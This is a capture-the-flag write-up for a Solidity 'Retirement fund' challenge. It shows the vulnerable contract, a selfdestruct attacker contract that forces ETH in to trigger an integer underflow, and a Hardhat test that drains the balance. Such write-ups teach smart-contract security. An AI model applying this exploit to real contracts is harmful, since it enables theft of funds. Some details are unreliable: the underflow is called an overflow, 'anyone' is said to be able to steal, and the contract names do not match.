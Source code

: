 # Retirement fund

## topic

```solidity
pragma solidity ^0.4.21;

contract RetirementFundChallenge {
    uint256 startBalance;
    address owner = msg.sender;
    address beneficiary;
    uint256 expiration = now + 10 years;

    function RetirementFundChallenge(address player) public payable {
        require(msg.value == 1 ether);

        beneficiary = player;
        startBalance = msg.value;
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function withdraw() public {
        require(msg.sender == owner);

        if (now < expiration) {
            // early withdrawal incurs a 10% penalty
            msg.sender.transfer(address(this).balance * 9 / 10);
        } else {
            msg.sender.transfer(address(this).balance);
        }
    }

    function collectPenalty() public {
        require(msg.sender == beneficiary);

        uint256 withdrawn = startBalance - address(this).balance;

        // an early withdrawal occurred
        require(withdrawn > 0);

        // penalty is what's left
        msg.sender.transfer(address(this).balance);
    }
}
```

## analyse

our goal is to make `address(this).balance == 0`, at first address(this) == 1 ETH

The design of this level is not very good. There are two ways to complete this task

## solution 1

1.beneficiary calls `withdraw()`

2.beneficiary calls `collectPenalty()`

3.call `isComplete()`

of course, this is not the thing that designer wants us to do

## solution 2

Anyone can steal all the money in th contract! Let's look at the following code: it checks withdrawn > 0, while `withdrawn = startBalance - address(this).balance`. startBalance = 1 ETH, initial address(this).balance = 1 ETH. But what if we send some money to this contract? It would cause an integer overflow bacause address(this).balance > 1 ETH and withdrawn will be very large so it can easily pass the `require`.

But how to send some money to this contract? It doesn't contain an function that can receive money or even a fallback() or receive() to receive money. But we know, we can destroy a contract to force ETH to an address: `selfdestruct()`

```solidity
    function collectPenalty() public {
        require(msg.sender == beneficiary);

        uint256 withdrawn = startBalance - address(this).balance;

        // an early withdrawal occurred
        require(withdrawn > 0);

        // penalty is what's left
        msg.sender.transfer(address(this).balance);
    }
```

this is the attack steps:

1.Deploy this contract to send som money to the level contract.

```solidity
pragma solidity ^0.7.3;

contract RetirementFundAttacker {

    constructor (address payable target) payable {
        require(msg.value > 0);
        selfdestruct(target);
    }
}
```

2.call the collectPenalty()

this is the example:

```js
import { expect } from "chai";
import { utils } from "ethers";
import { ethers } from "hardhat";

describe("RetirementFundChallenge", () => {
  it("Solves the challenge", async () => {
    const myAddress = ethers.provider.getSigner().getAddress();
    const challengeFactory = await ethers.getContractFactory("RetirementFundChallenge");
    const challengeContract = await challengeFactory.deploy(myAddress, { value: utils.parseEther("1") });
    await challengeContract.deployed();

    const attackFactory = await ethers.getContractFactory("RetirementFundAttack");
    const attackContract = await attackFactory.deploy(challengeContract.address, { value: 1 });
    await attackContract.deployed();

    const tx = await challengeContract.collectPenalty();
    await tx.wait();

    expect(await challengeContract.isComplete()).to.be.true;
  });
});

```

